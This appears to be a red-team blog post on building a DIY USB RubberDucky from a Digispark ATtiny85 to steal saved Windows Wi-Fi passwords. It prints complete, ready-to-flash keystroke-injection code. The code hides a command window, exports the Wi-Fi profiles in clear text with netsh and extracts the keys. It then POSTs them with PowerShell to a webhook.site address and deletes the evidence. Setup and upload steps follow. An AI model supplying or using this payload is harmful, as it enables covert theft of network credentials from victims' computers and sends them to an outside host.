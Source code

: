 ```yaml
---
title: "DIY RubberDucky Wifi Passwords Stealer"
description: "Steal Wifi passwords with a DIY RubberDucky."
date: "2021-08-02"
categories: [PoC]
tags: [windows, rubberducky, Wifi, red team, penetration testing, physical security]
pin: false
math: true
mermaid: true
image:
  path: "/assets/img/rubberducky/rubberducky.png"
  alt: "DIY RubberDucky"
---
```


In this post, I'll walk through how you can steal Wifi passwords with a DIY RubberDucky and send over to a webhook address. This payload will only work with internet access. You can have a local listener setup but that's totally up to you. I'll be using payload from [MTK911](https://github.com/MTK911/Attiny85/tree/master/payloads).<br>

### Webhook

Before we get into setting payload, let's head over to [https://webhook.site/](https://webhook.site/) to get a webhook address that we can use. Copy the webhook address. You will also see an email address that you can use but we won't be utilizing that in this walk thorugh.

```
https://webhook.site/35013eef-f6b1-4833-a3b0-xxxxxxxxxxxx
```

 ![DIY RubberDucky](/assets/img/wifistealer/wifi02.png)

### Payload

Github: [MTK911/Wifi-password-stealer](https://github.com/MTK911/Attiny85/blob/master/payloads/Wi-Fi%20password%20stealer/WifiKey-Grab_Minimize-of-Shame.ino)

You can try out other payloads from MTK911 as well. He posted quite a number of awesome payloads.

Fire up your Arduino IDE. Make sure Digispark drivers are installed. If you haven't done so already, please see my previous post for the setup guide.

Make sure that Boards Manager is set to `Digistump 16.5mhz` and Programmer set to `Micronucleus`.

Paste the code into the IDE:

```
/*
  Following payload will grab saved Wifi password and will send them to your hosted webhook and hide the cmd windows by using technique mentioned in hak5darren
 rubberducky wiki -- Payload hide cmd window [https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---hide-cmd-window]
*/


#include "DigiKeyboard.h"
#define KEY_DOWN 0x51 // Keyboard Down Arrow
#define KEY_ENTER 0x28 //Return/Enter Key

void setup() {
  pinMode(1, OUTPUT); //LED on Model A 
}

void loop() {
   
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);
 
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //run
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd /k mode con: cols=15 lines=1"); //smallest cmd window possible
  DigiKeyboard.delay(500);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT); //Menu  
  DigiKeyboard.sendKeyStroke(KEY_M); //goto Move
  for(int i =0; i < 100; i++)
    {
      DigiKeyboard.sendKeyStroke(KEY_DOWN);
    }
  DigiKeyboard.sendKeyStroke(KEY_ENTER); //Detach from scrolling
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cd %temp%"); //going to temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("netsh wlan export profile key=clear"); //grabbing all the saved wifi passwd and saving them in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > Wi-Fi-PASS"); //Extracting all password and saving them in Wi-Fi-Pass file in temporary dir
  DigiKeyboard.delay(500);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/<ADD-WEBHOOK-ADDRESS-HERE> -Method POST -InFile Wi-Fi-PASS"); //Submitting all passwords on hook
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("del Wi-* /s /f /q"); //cleaning up all the mess
  DigiKeyboard.delay(100);
  DigiKeyboard.println("exit");
  DigiKeyboard.delay(100);
  
  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW); 
  DigiKeyboard.delay(5000);
  
}
```

Your IDE should now look something like this:

![DIY RubberDucky](/assets/img/wifistealer/wifi01.png)

Be sure to paste in your unique webhook address that you obtained above. You can play around with the delay to better suit your needs. 

Press `Upload` button when ready.

![DIY RubberDucky](/assets/img/instantshell/shell02.png)

You will see the message saying: `Plug in the device now...`.

![DIY RubberDucky](/assets/img/instantshell/shell03.png)

Plug in your ATtiny85. When done, `Micronucleus done. Thank you!` message will show.

![DIY RubberDucky](/assets/img/instantshell/shell04.png)

> Always remember to unplug the Digispark before hitting upload and plug it in when the Arduino IDE requests you to. If you get an error that assertion failed or micronucleus crashed during upload then you probably did not unplug your Digispark before uploading.

Now, plug the device into a computer and wait for it to trigger.

![DIY RubberDucky](/assets/img/wifistealer/wifi03.png)

For any questions, feel free to reach out to me on twitter.

> DISCLAIMER: All the software/scripts/applications/things in this repository are provided as is, without warranty of any kind. Use of these software/scripts/applications/things is entirely at your own risk. Creator of these softwares/scripts/applications/things is not responsible for any direct or indirect damage to your own or defiantly someone else's property resulting from the use of these software/scripts/applications/things. 